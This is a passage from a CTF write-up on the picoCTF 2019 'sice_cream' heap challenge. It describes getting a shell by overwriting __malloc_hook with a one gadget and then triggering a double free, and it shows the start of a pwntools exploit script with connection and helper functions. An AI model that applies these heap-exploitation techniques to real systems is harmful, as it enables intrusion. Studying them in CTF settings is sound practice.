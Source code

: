 #### So what is the other solution?

The other solution is based upon the fact that when you double free a chunk and cause a `double free or corruption (fasttop)` error, it will actually call `malloc` internally. I found out about this from [this blog post](https://blog.osiris.cyber.nyu.edu/2017/09/30/csaw-ctf-2017-auir/).

If you cause a double free, the subsequent call to `malloc` actually meets one of our one gadget's constraints, and thus the solution is then much easier: overwrite the top chunk pointer to `__malloc_hook - 0x15` and then overwrite `__malloc_hook` with the working one gadget and cause a double free to get shell.

The exploit for that is showcased at the very end of this post.

### **Final Exploit**

If you want to run this exploit remotely, you should move it to the shell server first. The 51 allocations don't play well unless your internet is extremely fast, unlike mine ^_^
```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './sice_cream'
HOST, PORT = '2019shell1.picoctf.com', 6552

elf = ELF(BINARY)
libc = ELF('./libc.so.6')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

# Application logic

def initialize(name):
    p.sendlineafter('> ', name)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def reintroduce(name):
    p.sendlineafter('> ', '3')
    p.sendafter('> ', name)
    return p.recvuntil('1.')

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
    debug([])
```